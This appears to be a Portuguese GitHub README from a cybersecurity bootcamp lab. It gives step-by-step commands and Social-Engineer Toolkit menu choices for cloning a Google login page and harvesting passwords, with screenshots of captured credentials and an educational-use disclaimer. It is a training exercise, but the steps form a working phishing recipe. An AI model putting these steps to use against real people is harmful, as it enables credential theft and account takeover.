 # Phishing para captura de senhas do Google
- Desafio de Projeto Santander Bootcamp Cibersegurança

### Ferramentas utilizadas

- Kali Linux
- setoolkit (version: 8.0.3)

### Configurando o Phishing no Terminal do Kali Linux

- Acesso root: ``` sudo su ```
- Permitir redirecionar site após coleta:
```bash
sed -i 's/HARVESTER_REDIRECT=OFF/HARVESTER_REDIRECT=ON/g' /etc/setoolkit/set.config
```
- Alterar site a ser redirecionado após coleta:
```bash
sed -i 's#HARVESTER_URL=http://thisisasite#HARVESTER_URL=http://google.com#g' /etc/setoolkit/set.config
```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Forma de ataque: ``` Web Templates ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- Selecionar template: ``` Google ```

### Resutados

- Página Phishing Google
  
![Alt text](./page.PNG "pagina phishing google")

- Credenciais Coletadoas

![Alt text](./passwd.png "credenciais coletadas")

> [!NOTE]
> - **Este repositório é exclusivamente para fins educacionais.**
> - **O uso deste conteúdo para atividades ilegais é proibido.**
> - **O autor não se responsabiliza por qualquer uso indevido das informações disponibilizadas.**

